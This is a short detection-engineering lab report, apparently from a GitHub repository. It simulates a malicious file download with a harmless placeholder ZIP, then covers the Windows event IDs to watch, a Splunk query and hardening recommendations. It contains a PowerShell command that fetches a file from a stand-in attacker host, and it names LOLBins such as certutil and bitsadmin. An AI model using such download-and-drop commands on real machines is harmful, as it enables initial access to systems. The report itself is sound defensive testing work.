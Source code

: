 🔍 Suspicious File Download & Execution Simulation Report

📌 Use Case

MITRE ATT\&CK Technique:

* Initial Access & Execution

  * `T1204.002` – User Execution: Malicious File

---

📝 Scenario Summary

This simulation replicates a common initial access vector where an attacker uses a legitimate tool such as PowerShell to download and execute a malicious ZIP file. The scenario aims to test the visibility of suspicious download activity and script execution within a Windows environment using PowerShell and detect them via Splunk.

---

🧪 Attack Steps

Tools/Commands Used:

On Attacker Machine (Kali Linux):

```bash
echo "malicious payload inside" > fake_payload.txt
zip malicious.zip fake_payload.txt
python3 -m http.server 8080
```

On Victim Machine (Windows):

```powershell
powershell -Command "Invoke-WebRequest -Uri http://<Attacker-IP>:8080/malicious.zip -OutFile C:\Users\Public\malicious.zip"
```

* This uses PowerShell's `Invoke-WebRequest` to download a ZIP archive containing a fake payload.
* The file is dropped in a public user directory for potential execution.

---

📊 Event IDs & Data Sources

| Source                     | Event ID | Description                     |
| -------------------------- | -------- | ------------------------------- |
| Windows Security Logs      | 4688     | Process creation                |
| Sysmon (if enabled)        | 1        | Detailed process monitoring     |
| PowerShell Operational Log | 4104     | PowerShell script block logging |

---

🔎 Detection Logic (Splunk SPL)

```spl
index=* EventCode=4104
| table _time, host, source, sourcetype, Message
| sort -_time
```


---

🔐 Recommendations

* Block download and execution of files from untrusted sources using PowerShell.
* Enable and monitor ScriptBlockLogging and ModuleLogging via GPO.
* Restrict PowerShell usage to authorized users.
* Alert on use of LOLBins like `Invoke-WebRequest`, `certutil.exe`, or `bitsadmin.exe`.

---

🚨 Status

* [x] Detection Tested
* [x] Alert Triggered

---

